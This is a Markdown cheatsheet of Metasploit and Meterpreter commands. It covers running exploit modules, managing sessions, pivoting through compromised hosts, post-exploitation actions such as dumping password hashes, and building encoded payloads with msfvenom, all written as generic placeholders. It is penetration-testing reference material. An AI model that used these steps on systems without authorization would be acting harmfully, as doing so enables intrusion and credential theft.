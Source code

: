 # Metasploit Cheatsheet:

## Basic Metasploit :

User can use all regualr bash command in msfconsole ex. ls, cd, whoami, etc.

- Search for exploit:
```
msf6 > search [module name ex.smb, ftp, windows] type [module type: Auxiliary, post, expolit]
`````
- Use exploit:
````
msf6 > use exploit/[ExploitPath]
``````
- Specify a Payload to use:
````
msf6 > set PAYLOAD [PayloadPath]
``````
- Show options for the current modules:
````
msf6 > show options
``````` 
for Advanced options
````
msf6 > show Advanced options
```````
- Set options:
```
msf6 > set [Option] [Value]
`````
For null value use '' ex. set PASSWORD ''.

- Run exploit:
```
msf6 > exploit
`````
 or
````
msf6 > run
``````
- Information of Exploit:
````
msf6 exploit_type(exploit name) > info
``````
- Check exploit working or not:
````
msf6 exploit_type(exploit name) > check
``````
- Back to previous Moduleaas:
```
msf6 > back
`````
- Exit from Msfconsole:
```
msf6 > exit
`````
## Multiple Exploitation:
- Run the exploit expecting a single session that is immediately backgrounded:
```
msf > exploit -z
``````
- Run the exploit in the background expecting one or more sessions that are immediately backgrounded:
````
msf > exploit –j
`````
- List all current jobs (usually exploit listeners):
```
msf > jobs –l
````
- Kill a job:
```
msf > jobs –k [JobID]
`````
## Multiple Sessions:

- List all backgrounded sessions:
```
msf > sessions -l
``````
- Interact with a backgrounded sessions:
````
msf > session -i [SessionID]
```````
- Background the current interactive session:
```
meterpreter > <Ctrl+Z>
`````
 or
````
meterpreter > background 
```````
## Routing Through Sessions:
- Adding Route:
````
msf > route add [Subnet to Route To] [Subnet Netmask] [SessionID]
````
- Deletting route:
````
msf > route del [Subnet to Route To] [Subnet Netmask] [SessionID]
````
- To print route:
````
msf > rout print
``````
- Port Forwording:
```
msf > portfwd -l [local port] -p [victim port] -r [remote ip]
``````
## Meterpreter:

User can use all commands used on bash depends on his authority on the compromised system.

### Process Commands:
- Display the process ID of Metepreter
```
meterpreter > getpid
````
- Display the user ID that Meterpreter is running with:
```
meterpreter > getuid
`````
- Display process list
```
meterpreter > ps
``````
- Terminate a process given its process ID
````
meterpreter > kill
``````
- Run a given program with the privileges of the process the Meterpreter is loaded in:
````
meterpreter > execute
```````
- Jump to a given destination process ID
````
meterpreter > migrate
``````
### Network Commands:
- Show network interface information
````
meterpreter > ipconfig
``````
- Save as an image a screenshot of the target machine
````
meterpreter > screenshot
`````````
- Load the priv module
```
meterpreter > use priv
`````````
- Dump hashes from the box 
````
meterpreter > hashdump
``````
## Generating encodedcpaytload:
```
$ msfvenom –p [payload user want] -e [encoder] -i [no. of iteration of encoder] -f [file type of payload] -L [localhost] -P [local port] -o [output file]
`````

